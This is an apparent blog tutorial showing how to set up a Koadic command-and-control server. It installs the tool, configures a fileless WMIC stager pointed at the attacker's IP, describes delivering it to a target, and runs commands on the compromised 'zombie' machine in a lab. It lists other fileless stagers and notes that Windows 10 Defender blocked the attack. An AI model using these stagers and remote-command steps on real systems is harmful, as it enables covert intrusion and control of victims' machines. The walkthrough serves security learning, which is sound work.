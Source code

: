 ```yaml
---
title: "Create Command and Control Server with Koadic"
date: "2020-02-12"
layout: single
tags:
- Fileless
categories:
- Blog-post
---
```


Hey readers. Have you wonder how attacker compromised user and do the "bad things" from their Command and Control (C2) server to its zombies (victims) ?

In this tutorial, let us be that "attacker" and learn how they do this type of attack using a tool named [Koadic](https://github.com/zerosum0x0/koadic).

Disclaimer:
This is for research and education purpose only. Do with your own risk. Dosa guys pedajal orang.

Back to the topic. From their repo, they explained...

"Koadic, or COM Command & Control, is a Windows post-exploitation rootkit similar to other penetration testing tools such as Meterpreter and Powershell Empire. The major difference is that Koadic does most of its operations using Windows Script Host (a.k.a. JScript/VBScript), with compatibility in the core to support a default installation of Windows 2000 with no service packs (and potentially even versions of NT4) all the way through Windows 10.

It is possible to serve payloads completely in memory from stage 0 to beyond, as well as use cryptographically secure communications over SSL and TLS (depending on what the victim OS has enabled)."

## Installation

```
git clone https://github.com/zerosum0x0/koadic.git
cd koadic
pip3 install -r requirements.txt
./koadic
```
## Generate payload
First, we run koadic and use module named wmic.
```
use stager/js/wmic
set srvhost 192.168.83.128
run
```
Note:
Replace the IP with your own.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/1.png)
## Deliver payload

Copy the fileless `wmic` command and deliver to your target. In case here, I'm just copy and paste into my targeted virtual machine (Win7). This serves payloads in memory using WMIC. So, we can consider this as fileless malware cause it serves in memory. 

For example of delivering payload, you can do technique like [malicious .lnk](https://fareedfauzi.github.io/blog-post/Create-malicious-lnk/) to compromise user.

So, after press enter in cmd. The payload should be run.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/2.PNG)

Switch back to our kali machine, focus back to our terminal.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/3.PNG)

You will notice that our target machine now will become our first zombie.
If we issue command `zombies 0`, it will give information about the compromised user (our first zombie).

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/4.PNG)

## Execute Command using Koadic

Using module `exec_cmd`, we specify the command that we want to execute. In this case, I give `calc.exe` as command that I want to execute.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/5.PNG)
```
use implant/manage/exec_cmd
set cmd calc.exe
set zombie 0
run
```
And calc.exe will be executed. Hooray 🎉.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/6.PNG)

We're now "king" for our zombies.

Let's try with other command line program.

```
set cmd ipconfig
set zombie 0
run
```

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/7.PNG)

Let's demonstrate all the method in a .gif. Please zoom-in the gif if you can't see clearly.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/a.gif)

## Last but not least
For stagers, instead of using wmic as our fileless malware, this tool have other option like mshta and etc.

Module | Description | Malware Category
--------|------------|-----
stager/js/mshta | serves payloads in memory using MSHTA.exe HTML Applications | File-less
stager/js/regsvr | serves payloads in memory using regsvr32.exe COM+ scriptlets | File-less
stager/js/rundll32_js | serves payloads in memory using rundll32.exe | File- less
stager/js/disk | serves payloads using files on disk | File-based
stager/js/wmic | serves payloads in memory using WMIC | File-less
stager/js/bitsadmin | transfers a .wsf payload containing JScript over a Bitsadmin job and executes it | File-less

You can read more in [Koadic repository](https://github.com/zerosum0x0/koadic) readme[.]md .

# Last one again
I try this technique in Windows 10 with Defender protection turn on.

And defender blocked the file-less command line.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/8.PNG)

Users need to move on from Windows XP and 7 to Win10 as precautionary measures if users don't have plan to buy any Anti Virus products for their old Windows version. 👍

That's all. Thanks for reading!
